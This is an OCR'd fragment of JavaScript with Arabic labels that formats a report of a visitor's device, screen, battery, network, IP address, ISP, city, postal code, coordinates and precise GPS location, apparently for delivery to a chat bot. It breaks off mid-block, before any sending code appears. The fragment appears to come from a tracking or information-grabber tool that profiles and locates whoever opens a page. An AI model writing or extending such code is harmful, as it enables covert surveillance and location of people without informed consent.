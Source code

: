             // معلومات الوقت
            message += `⏰ *الوقت:* ${data.deviceInfo.dateTime}\n\n`;
            
            // معلومات الجهاز
            message += `💻 *معلومات الجهاز:*\n`;
            message += `- نظام التشغيل: ${data.deviceInfo.platform}\n`;
            message += `- المتصفح: ${data.deviceInfo.userAgent}\n`;
            message += `- الذاكرة: ${data.deviceInfo.deviceMemory} GB\n`;
            message += `- الأنوية: ${data.deviceInfo.hardwareConcurrency}\n`;
            message += `- نقاط اللمس: ${data.deviceInfo.maxTouchPoints}\n\n`;
            
            // معلومات الشاشة
            message += `🖥 *معلومات الشاشة:*\n`;
            message += `- الدقة: ${data.deviceInfo.screenWidth} × ${data.deviceInfo.screenHeight}\n`;
            message += `- نسبة البكسل: ${data.deviceInfo.pixelRatio}\n`;
            message += `- عمق الألوان: ${data.deviceInfo.colorDepth} بت\n`;
            message += `- الاتجاه: ${data.deviceInfo.orientation}\n\n`;
            
            // حالة البطارية
            if (data.batteryInfo) {
                message += `🔋 *حالة البطارية:*\n`;
                message += `- النسبة: ${data.batteryInfo.level}\n`;
                message += `- حالة الشحن: ${data.batteryInfo.charging}\n`;
                message += `- وقت الشحن المتبقي: ${data.batteryInfo.chargingTime}\n`;
                message += `- وقت التفريغ المتبقي: ${data.batteryInfo.dischargingTime}\n\n`;
            }
            
            // معلومات الشبكة
            if (data.networkInfo) {
                message += `🌐 *معلومات الشبكة:*\n`;
                message += `- نوع الاتصال: ${data.networkInfo.type}\n`;
                message += `- سرعة التنزيل: ${data.networkInfo.downlink}\n`;
                message += `- زمن الوصول: ${data.networkInfo.rtt}\n`;
                message += `- توفير البيانات: ${data.networkInfo.saveData}\n\n`;
            }
            
            // معلومات IP والموقع
            if (data.ipInfo) {
                message += `📍 *معلومات الموقع (IP):*\n`;
                message += `- عنوان IP: ${data.ipInfo.ip}\n`;
                message += `- البلد: ${data.ipInfo.country} (${data.ipInfo.countryCode})\n`;
                message += `- المدينة: ${data.ipInfo.city}\n`;
                message += `- المنطقة الزمنية: ${data.ipInfo.timezone}\n`;
                message += `- مزود الخدمة: ${data.ipInfo.isp}\n\n`;
                
                message += `🗺 *الإحداثيات الجغرافية:*\n`;
                message += `- خط العرض: ${data.ipInfo.latitude}\n`;
                message += `- خط الطول: ${data.ipInfo.longitude}\n`;
                message += `- المنطقة: ${data.ipInfo.region}\n`;
                message += `- الرمز البريدي: ${data.ipInfo.postalCode}\n\n`;
            }
            
            // الموقع الدقيق
            if (data.preciseLocation) {
                message += `🎯 *الموقع الدقيق:*\n`;
                message += `- خط العرض: ${data.preciseLocation.preciseLatitude}\n`;
                message += `- خط الطول: ${data.preciseLocation.preciseLongitude}\n`;
                message += `- الدقة: ±${data.preciseLocation.accuracy}\n\n`;
                